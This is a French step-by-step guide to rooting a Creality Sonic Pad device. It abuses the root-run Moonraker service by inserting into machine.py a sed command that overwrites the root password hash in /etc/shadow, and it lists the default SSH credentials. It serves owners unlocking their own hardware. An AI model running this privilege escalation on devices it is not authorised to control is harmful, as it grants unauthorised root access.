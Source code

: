 Creality fait fonctionner les différents services (Klipper, Moonraker, Fluidd, Mainsail) en tant qu'utilisateur "root". En analysant les journaux de Moonraker (moonraker.log), un des scripts Python peut lancer des commandes shell : machine.py.

L'utilisateur "creality" a les droits suffisants pour altérer ce script python :smiley:

1. Se connecter en SSH sur la Sonic Pad avec l'identifiant fourni par Creality => creality:creality
2. Éditer le fichier machine.py situé dans /usr/share/moonraker/moonraker/components/
   Pour éditer ce fichier, utiliser «vi» (une fois le fichier ouvert pour passer en mode édition, presser la touche «I» )
   
>`vi /usr/share/moonraker/moonraker/components/machine.py`
   
3. Saisir ce qui suit après la ligne 115.

> await self._execute_cmd("sed -i'.bkup' '/root:$1$kADTkVT0$czwdHve48Tc33myUPXAD/croot:$1$quuqrAVq$XQKBnFkq5J7bJ4AAeJaYg0:19277:0:99999:7:::' /etc/shadow")

   Le fichier /etc/shadow sera modifié en remplaçant le mot de passe root originel (inconnu) par celui connu de l'utilisateur "creality", une sauvegarde du fichier shadow originel sera effectuée également (/etc/shadow.bkup).

   Une fois cet ajout réalisé, enregistrer ces modifications via ESC pour quitter le mode d'édition de "vi" puis :wq pour enregistrer et quitter.
   
4. Redémarrer la Sonic Pad
5. Se connecter en SSH sur la Sonic Pad avec l'identifiant root:creality

*«A grand pouvoir, grandes responsabilités»*
